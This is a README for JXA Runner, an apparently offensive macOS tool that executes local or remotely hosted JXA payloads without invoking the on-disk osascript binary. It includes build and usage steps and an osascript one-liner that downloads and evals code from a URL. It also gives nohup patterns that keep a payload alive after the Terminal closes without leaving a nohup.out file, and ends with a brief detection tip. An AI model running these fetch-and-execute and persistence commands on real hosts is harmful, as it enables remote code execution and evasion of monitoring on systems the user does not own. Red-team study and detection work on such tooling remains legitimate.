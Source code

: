 # JXA Runner
Swift code to programmatically execute local or hosted JXA payloads without using the on-disk osascript binary. This is helpful when you have Terminal access to a macOS host and want to launch a JXA .js payload without using on-disk osascript commands.

## Steps

1. Ensure you have Xcode installed (which will also install Swift)
2. Open the included xcodeproj file in XCode
3. In XCode: **Product** -> **Build** to build the binary
4. The compiled binary will be dropped to something like: **/Users/[username]/Library/Developer/Xcode/DerivedData/JXARunner-[random]/Build/Products/Debug/JXARunner.app**
5. cd to the Directory in #4 above and then cd to **Contents/MacOS**
6. Then you can copy the JXARunner macho binary to wherever you plan to run it and execute it

## Usage
- For programmatically executing hosted JXA payloads:

> ./JXARunner -u [url_to_jxa_payload]

**Note: This is the programmatic alternative to the command line execution of:
*osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('[url_path]')),$.NSUTF8StringEncoding)));"*

- For programmatically executing local JXA payloads:

> ./JXARunner -f [local_path_to_payload]

**Note: This is the programmatic alternative to the command line execution of:
*osascript -l JavaScvript -e "eval(ObjC.unwrap($.NSString.stringWithContentsOfFile('[filePath]')));"*
## Notes
In its current form, this script does **NOT** background the JXA payload. So you will need to take care of that manually at execution time. Some options for doing so are below:

- If you want the launched JXA payload to continue even after the Terminal you are using is closed, you can run JXA Runner in this manner (note: this will cause a nohup.out file to be dropped to the current directory or to the home directory):

> nohup ./JXARunner -u [url_to_jxa_payload]

- If you want the launched JXA payload to continue after the Terminal is closed and you do not want to create the nohup.out file, you can run JXA runner in the following manner:

> nohup ./JXARunner -u [url_to_jxa_payload] > /dev/null 2>&1&

- If you simply want to spawn JXA Runner backgrounded you can run it in this manner (however, if the Terminal window is closed the JXA payload will stop running):

> ./JXARunner -u [url_to_jxa_payload] &

## Detection
If **nohup** is being used to cause the executed payload to live beyond the Terminal, searching for nohup command line executions would return this activity (and may be a good idea in general to see what else in an environment is running commands with nohup).
